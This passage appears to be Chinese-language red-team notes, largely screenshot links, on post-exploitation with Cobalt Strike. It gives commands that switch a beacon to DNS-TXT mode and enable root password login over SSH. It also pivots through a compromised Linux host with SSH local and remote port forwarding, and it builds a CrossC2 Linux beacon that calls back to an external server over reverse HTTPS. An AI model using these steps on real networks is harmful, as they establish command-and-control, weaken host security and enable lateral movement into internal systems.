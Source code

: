 [![ppzGe6x.png](https://s1.ax1x.com/2023/04/14/ppzGe6x.png)](https://imgse.com/i/ppzGe6x)

[![ppzGM7D.png](https://s1.ax1x.com/2023/04/14/ppzGM7D.png)](https://imgse.com/i/ppzGM7D)[![ppzGlAe.png](https://s1.ax1x.com/2023/04/14/ppzGlAe.png)](https://imgse.com/i/ppzGlAe)

[![ppzG4N4.png](https://s1.ax1x.com/2023/04/14/ppzG4N4.png)](https://imgse.com/i/ppzG4N4)

。

上线后执行

~~~
mode dns-txt
~~~

#### ssh

无法通过cs上线

linux上开启ssh登陆

~~~
vi /etc/ssh/sshd_config
PermitRootLogin yes
PasswordAuthentication yes

/etc/init.d/ssh start
/etc/init.d/ssh restart

本地：出站被封，则让linux转发给本地，我们主动去连接
ssh -CfNg -L 1122:192.168.1.15:8080 root@192.168.1.166
curl http://127.0.0.1:1122
-----------------------------------------------------------------------------------------
远程：入站被封，则让linux将内网的地址转发给外网的某某端口



ssh -CfNg -R 1234:192.168.1.15:8080 root@129.226.92.29
curl http://127.0.0.1:1234
~~~

https://gloxec.github.io/CrossC2/zh_cn/

针对linux的cs上线

因为正向只支持tcp，反向只支持https，所以我们创建一个https监听器

[![ppzdiKs.png](https://s1.ax1x.com/2023/04/14/ppzdiKs.png)](https://imgse.com/i/ppzdiKs)

创建反向https

[![ppzdNGD.png](https://s1.ax1x.com/2023/04/14/ppzdNGD.png)](https://imgse.com/i/ppzdNGD)[![ppzdaxH.png](https://s1.ax1x.com/2023/04/14/ppzdaxH.png)](https://imgse.com/i/ppzdaxH)

~~~
/home/ubuntu/genCrossC2.Linux 129.226.92.29 5555 ./.cobaltstrike.beacon_keys null Linux x64 t_cc2.out
~~~

在服务端执行这个命令
